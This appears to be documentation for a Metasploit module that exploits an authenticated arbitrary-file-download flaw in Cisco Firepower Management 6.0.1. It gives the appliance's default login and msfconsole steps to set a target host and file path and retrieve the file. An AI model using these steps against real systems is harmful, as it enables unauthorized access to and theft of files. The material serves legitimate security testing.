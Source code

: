 This module exploits a vulnerability found in Cisco Firepower Management console. A logged in
user can abuse the report viewing feature to download an arbitrary file. Authentication is
required to exploit this vulnerability.


## Vulnerable Application

This module was written specifically against Cisco Firepower Management 6.0.1 (build 1213) during
development. To test, you may download the virtual appliance here:

https://software.cisco.com/download/release.html?mdfid=286259687&softwareid=286271056&release=6.0.1&flowid=54052

## Verification Steps

To use this module, first you need to know an username and password. The management console uses
admin:Admin123 by default:

1. Start msfconsole
2. ```use auxiliary/scanner/http/cisco_firepower_download```
3. ```set USERNAME [user]```
4. ```set PASSWORD [pass]```
5. ```set RHOSTS [IP]```
6. ```set FILEPATH [file to download]```
7. ```run```

If the file is found, it will be saved in the loot directory. If not found, the module should
print an error indicating so.

## Demo

![cisco_download_demo](https://cloud.githubusercontent.com/assets/1170914/21782825/78ada38e-d67a-11e6-9b7b-c7b8e2956fba.gif)
